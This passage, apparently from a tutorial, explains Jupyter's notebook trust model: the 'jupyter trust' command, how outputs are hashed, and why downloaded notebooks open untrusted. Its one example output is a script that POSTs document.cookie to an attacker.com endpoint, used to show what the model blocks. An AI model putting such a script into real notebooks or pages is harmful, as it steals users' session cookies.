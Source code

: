 #### **b. Tools to Manage Trust**
- Use `jupyter trust` to explicitly trust a notebook:
   ```bash
   jupyter trust <notebook.ipynb>
   ```
- Clear all outputs before sharing a notebook:
   ```bash
   jupyter nbconvert --clear-output my_notebook.ipynb
   ```

---

### **7. How the Security Model Helps**
Let’s revisit the malicious script example. If the notebook containing the following output is downloaded:

```html
<script>
    fetch("https://attacker.com/steal", { method: "POST", body: document.cookie });
</script>
```

The security model ensures:
1. The output is not executed when the notebook is opened, as it is **untrusted**.
2. The user has to explicitly trust the notebook for the code to execute.

This adds a critical layer of defense, preventing accidental execution of malicious scripts.

---

### **8. Who Computes the Hash?**

The hash is **computed by Jupyter itself**—the Jupyter Notebook application running on your local machine or server. This process occurs when the notebook is **saved or executed** in your Jupyter environment. 

When you are working on a notebook in your Jupyter interface (e.g., using `jupyter notebook` or `jupyter lab`), the application ensures that:

- Every time you save the notebook (e.g., by clicking the save button or using the `Ctrl+S` shortcut), Jupyter checks the notebook's outputs (e.g., plots, HTML, JavaScript).
- A cryptographic hash is generated for the notebook content and stored along with the notebook file. This hash is computed based on the **cell outputs**, **metadata**, and certain other notebook elements.

If the notebook originates from **someone else** (e.g., you download it from the internet), the hash will not match your local Jupyter setup, and Jupyter will mark the notebook as "untrusted."

---

### **9. When Does This Happen?**

#### **a. When You Create or Save a Notebook**
If you are working on a notebook, Jupyter will compute the hash automatically when you:
- Save the notebook (e.g., using the save button in the interface).
- Execute a cell and generate new outputs (e.g., running a Python command in a cell).
- Close the notebook (if auto-saving is enabled).
